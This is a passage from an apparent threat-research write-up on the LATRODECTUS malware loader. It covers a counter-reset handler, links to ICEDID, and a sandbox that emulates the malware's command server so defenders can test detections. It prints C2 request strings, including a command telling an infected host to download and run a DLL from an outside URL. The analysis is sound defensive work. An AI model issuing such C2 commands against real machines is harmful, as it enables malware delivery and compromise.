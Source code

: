 
#### Reset counter - command ID (20)

This command handler will reset the request counter that is passed on each communication request. For example, on the third callback it is filled with 3 here. With this function, the developer can reset the count starting from 0.

```
counter=3&type=4&guid=638507385
```

### LATRODECTUS / ICEDID connection

There definitely is some kind of development connection or working arrangement between ICEDID and LATRODECTUS. Below are some of the similarities observed:
 - Same enumeration commands in the system discovery handler
 - The DLL exports all point to same export function address, this was a common observation with ICEDID payloads
 - C2 data is concatenated together as variables in the C2 traffic requests
 - The ```bp.dat``` file downloaded from handler (#18) is used to execute the ICEDID payload via ```rundll32.exe``` 
 - The functions appear to be similarly coded

![COM-based Scheduled Task setup - ICEDID vs LATRODECTUS](/assets/images/spring-cleaning-with-latrodectus/image13.png)


Researchers didn’t conclude that there was a clear relationship between the ICEDID and LATRODECTUS families, though they appear at least superficially affiliated. ICEDID possesses more mature capabilities, like those used for data theft or the [BackConnect](https://www.team-cymru.com/post/inside-the-icedid-backconnect-protocol) module, and has been richly documented over a period of several years. One hypothesis being considered is that LATRODECTUS is being actively developed as a replacement for ICEDID, and the handler (#18) was included until malware authors were satisfied with LATRODECTUS’ capabilities.

### Sandboxing LATRODECTUS

To evaluate LATRODECTUS detections, we set up a Flask server configured with the different handlers to instruct an infected machine to perform various actions in a sandbox environment. This method provides defenders with a great opportunity to assess the effectiveness of their detection and logging tools against every capability. Different payloads like shellcode/binaries can be exchanged as needed.

![Command handlers sandboxed](/assets/images/spring-cleaning-with-latrodectus/image42.png)


As an example, for the download and execution of a DLL (handler #13), we can provide the following request structure (object type, handler, arguments for handler) to the command dispatcher:

```
COMMAND|13|http://www.meow123.com/dll, ShowMessage
```

The following example depicts the RC4-encrypted string described earlier, which has been base64-encoded.

```
E3p1L21QSBOqEKjYrBKiLNZJTk7KZn+HWn0p2LQfOLWCz/py4VkkAxSXXdnDd39p2EU=
```
